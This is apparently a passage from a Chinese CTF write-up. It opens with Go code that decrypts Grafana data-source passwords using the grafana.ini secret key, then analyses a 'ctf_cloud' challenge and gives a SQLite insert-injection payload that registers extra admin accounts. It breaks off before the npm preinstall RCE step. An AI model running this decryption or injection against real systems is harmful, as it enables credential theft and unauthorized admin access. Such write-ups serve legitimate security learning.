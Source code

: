 ```php
    for i, b := range bytes {  
        if len(alphabets) == 0 {  
            bytes\[i\] = alphanum\[b%byte(len(alphanum))\]  
        } else {  
            bytes\[i\] = alphabets\[b%byte(len(alphabets))\]  
        }  
    }  
    return string(bytes), nil  
}  
​  
func main() {  
    // decode base64str  
    // var grafanaIni\_secretKey = "SW2YcwTIb9zpOOhoPsMm"  
    var grafanaIni\_secretKey = "SW2YcwTIb9zpO1hoPsMm"  
    //SW2YcwTIb9zpO1hoPsMm  
    // var dataSourcePassword = "R3pMVVh1UHLoUkTJOl+Z/sFymLqolUOVtxCtQL/y+Q=="  
    var dataSourcePassword = "b0NXeVJoSXKPoSYIWt8i/GfPreRT03fO6gbMhzkPefodqe1nvGpdSROTvfHK1I3kzZy9SQnuVy9c3lVkvbyJcqRwNT6/"  
    encrypted, \_ := base64.StdEncoding.DecodeString(dataSourcePassword)  
    PwdBytes, \_ := Decrypt(encrypted, grafanaIni\_secretKey)  
    fmt.Println("\[\*\] grafanaIni\_secretKey= " + grafanaIni\_secretKey)  
    fmt.Println("\[\*\] DataSourcePassword= " + dataSourcePassword)  
    fmt.Println("\[\*\] plainText= " + string(PwdBytes))  
​  
    fmt.Println("\\n")  
    // encode str (dataSourcePassword)  
    var PlainText = "jas502n"  
    encryptedByte, \_ := Encrypt(\[\]byte(PlainText), grafanaIni\_secretKey)  
    var encryptedStr = base64.StdEncoding.EncodeToString(encryptedByte)  
    fmt.Println("\[\*\] grafanaIni\_secretKey= " + grafanaIni\_secretKey)  
    fmt.Println("\[\*\] PlainText= " + PlainText)  
    fmt.Println("\[\*\] EncodePassword= " + encryptedStr)  
}  
```

ctf\_cloud
----------

考点：insert注入和npm的preinstall-rce

首先分析一下整个业务的逻辑，主要就是routes下的三个js文件

![image.png](https://shs3.b.qianxin.com/attack_forum/2022/09/attach-94f5064a7cf5324f7c9a11692d469c58c94bdb87.png)

看users.js，主要就是用户注册加登录的逻辑，分析可以知道用户登录在password写了一个较强的waf，同时不可注入，所以分析注册点，发现password没有过滤，同时是简单的字符串替换，可以进行注入，经过尝试发现，虽然不能堆叠注入，但是可以往数据库多注册几个admin。这里是sqlite3数据库，使用--注释后面的内容。

![image.png](https://shs3.b.qianxin.com/attack_forum/2022/09/attach-d5712c16edc6825a2bada8606e3cc6d930008c9b.png)

![image.png](https://shs3.b.qianxin.com/attack_forum/2022/09/attach-59734f40ebfcf0b6997555ec6c62934cacaab507.png)

`1',1),('admin','123',1);--`
